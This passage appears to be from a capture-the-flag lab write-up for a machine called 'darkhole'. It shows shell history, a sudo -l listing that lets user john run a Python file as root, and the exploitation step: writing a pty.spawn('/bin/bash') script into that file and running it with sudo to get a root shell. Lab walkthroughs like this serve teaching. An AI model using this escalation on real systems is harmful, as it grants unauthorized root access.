 ```
exit
cat password
exit
mysql -u john -p darkhole < darkhole.sql
mysql
su root
mysql -u john
mysql -u john -p
wget http://192.168.56.1/darkhole.sql
su rootwget http://192.168.56.1/darkhole.sql
su root
```
Not only is there some sudoing going on, but lots of focus on the file.py.

At the moment its completely empty, but the reason becomes clear when we look at sudoers:
```
john@darkhole:~$ sudo -l
Matching Defaults entries for john on darkhole:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on darkhole:
    (root) /usr/bin/python3 /home/john/file.py
```

This makes our next step very easy. use a basic script to spawn a bash shell:

```
john@darkhole:~$ echo 'import pty;
> pty.spawn("/bin/bash")' > file.py
```
```
john@darkhole:~$ cat file.py
import pty;
pty.spawn("/bin/bash")
```

run the file with sudo and we get root!
```
john@darkhole:~$ sudo /usr/bin/python3 /home/john/file.py
root@darkhole:/home/john#
```

```
root@darkhole:/home/john# whoami
root
```
